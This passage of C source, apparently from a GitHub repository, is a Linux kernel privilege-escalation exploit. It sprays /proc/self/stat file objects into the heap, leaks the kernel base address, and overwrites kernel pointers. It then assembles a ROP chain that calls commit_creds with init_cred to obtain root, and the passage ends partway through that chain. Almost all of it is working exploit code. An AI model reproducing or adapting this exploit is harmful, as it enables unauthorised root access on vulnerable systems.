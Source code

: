 ```c
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd2, 0);
    if (m2 == MAP_FAILED) {
        panic("mmap(m2)");
    }

    m2[0] = 'A';
    m2[0x1000] = 'B';
    m2[0x2000] = 'C';

    usleep(1000);
    pin_cpu(0);

    for (uint i = 0; i < 9;++i)
        open("/proc/self/stat", O_RDONLY);

    write(devfd1, buf, sizeof(buf));

    for (i = 0; i < 0x3000 / 0x20; ++i) {
        fds[i] = open("/proc/self/stat", O_RDONLY);
        if (fds[i] < 0)
            panic("spray open");
    }

    uint64_t proc_single_file_operations = *(uint64_t*)(0x13380b0);
    uint64_t victim_chunk = *(uint64_t*)(0x1337048);

    kbase = proc_single_file_operations - 0x1226c20;
    logOK("kbase = %p", (void*)kbase);
    logOK("victim_chunk = %p", (void*)victim_chunk);

    if (victim_chunk < 0xffff000000000000 || kbase < 0xffff000000000000 || kbase % 0x1000) {
        logErr("Try harder\n");
        _exit(-1);
    }

    bak1 = *(uint64_t*)(0x1337060);
    bak2 = *(uint64_t*)(0x13380b0);

    *(uint64_t*)(0x1337060) = FIX_ADDR(0xffffffff814bb6fc); // leave ; ret
    *(uint64_t*)(0x13380b0) = victim_chunk + 0x18 - 0x10;

    uint64_t pre_rop[] = {
        0,
        FIX_ADDR(0xffffffff81ebebc1), // add rsp , 0x30 ; ret
    };

    logInfo("%lx\n", FIX_ADDR(0xffffffff814bb6fc));

    memcpy(bak3, (void*)0x1338000, sizeof bak3);
    memcpy((void*)0x1338000, pre_rop, sizeof(pre_rop));

    uint64_t rop1[] = {
        FIX_ADDR(0xffffffff81287be2), // pop rsp ; ret
        victim_chunk + 0x30
    };

    memcpy(bak4, (void*)0x1338090, sizeof bak4);
    memcpy((void*)0x1338090, rop1, sizeof(rop1));

    uint64_t rop2[] = {
        FIX_ADDR(0xffffffff812884c6), // pop rdi ; ret
        FIX_ADDR(0xffffffff82a52ca0), // init_cred
        FIX_ADDR(0xffffffff810bc170), // commit_creds
```